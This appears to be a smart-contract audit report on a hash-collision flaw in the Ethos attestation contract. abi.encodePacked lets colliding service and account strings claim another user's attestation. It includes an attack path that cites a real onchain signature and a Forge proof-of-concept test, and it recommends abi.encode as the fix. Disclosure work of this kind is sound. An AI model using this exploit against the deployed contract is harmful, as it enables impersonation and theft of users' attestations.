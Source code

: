 Puny Obsidian Beaver

Medium

# An attacker can claim an attestation of another user in Ethos cause of a hash collision in the function `getServiceAndAccountHash`, i.e essentially attestation hijacking

### Summary

The EthosAttestation contract uses an unsafe implementation of string concatenation with `abi.encodePacked` to generate unique hashes for attestations. Due to how `abi.encodePacked` handles dynamic types, it's possible to create hash collisions that allow attackers to claim legitimate attestations belonging to other users.

### Root Cause

Lack of hash collision check in [EthosAttestation#L435](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosAttestation.sol#L435)

The vulnerability stems from the [`getServiceAndAccountHash()`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosAttestation.sol#L435) function which uses `abi.encodePacked` to concatenate two dynamic string parameters before hashing.

When `abi.encodePacked()` is used with multiple variable-length arguments (such as strings), the packed encoding does not include information about the boundaries between different arguments. This can lead to situations where different combinations of arguments result in the same encoded output, causing hash collisions, e.g. 
`keccak256(abi.encodePacked("discor", "duser123"))` produces the same output as 
`keccak256(abi.encodePacked("discord", "user123"))`

See [the Solidity documentation](https://docs.soliditylang.org/en/latest/abi-spec.html#non-standard-packed-mode)


### Internal pre-conditions

1. The attacker must have a valid Ethos profile

### External pre-conditions

1. The protocol must have signed at least one valid attestation

### Attack Path

1. Attacker identifies a target attestation (e.g., service="x.com", account="1468371243573604352") as seen [here](https://sepolia.basescan.org/tx/0xfd687f303d4f543783a3a85e5b3dd3ca877a3bb3cf0ca851f28bee15af10f443)
2. Attacker finds a colliding combination (e.g., service="x.c", account="om1468371243573604352")
3. Attacker obtains a valid signature from the same transaction onchain for their colliding combination, i.e signature here is `0x7632f2c5325935ae9fd14fa080c5cdca213b91acb29523b361d9b25c6971bf917b33934829d3bb46ccd77ad258384d6f1351a36cf8cc6d7ef82a5d26a4ffad341c`
4. Attacker calls `createAttestation()` with their colliding values. The attacker can even leverage [issue#1](https://github.com/sherlock-audit/2024-10-ethos-network-indeqs/issues/1) to pass the `validateAndSaveSignature` function.
5. Due to the hash collision in [L#435](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosAttestation.sol#L435), the new attestation from the attacker passes. 
Provided the attacker has a valid profile, a colliding `attestationHash`(this vuln) and `evidence` (can be obtained onchain), the `_claimAttestation` smoothly passes without errors.
7. This allows the attacker to claim the attestation of another targeted Ethos user, i.e in this case, it was one with profile id 996

### Impact

- Unauthorized claiming of legitimate attestations from users leading to identity theft/impersonation

### PoC

```solidity
// FORGE TEST
function testHashCollisionAttack() public {
    // Setup - Create victim's attestation
    string memory victimService = "x.com";
    string memory victimAccount = "1468371243573604352";
    bytes32 victimHash = getServiceAndAccountHash(victimService, victimAccount);
    
    // Create victim attestation
    createAttestation(
        victimProfileId,
        randomValue,
        AttestationDetails({
            service: victimService,
            account: victimAccount
        }),
        "https://x.com/nesfatin/status/1851398888617345344",
        validSignature
    );
    
    // Attacker finds collision
    string memory attackerService = "x.c";
    string memory attackerAccount = "om1468371243573604352";
    bytes32 attackerHash = getServiceAndAccountHash(attackerService, attackerAccount);
    
    // Verify collision
    assertEq(victimHash, attackerHash);
    
    // Attacker claims attestation
    createAttestation(
        attackerProfileId,
        randomValue,
        AttestationDetails({
            service: attackerService,
            account: attackerAccount
        }),
        "https://x.com/nesfatin/status/1851398888617345344",
        validSignature
    );
}
```

### Mitigation

Replace `abi.encodePacked` with `abi.encode` to prevent hash collisions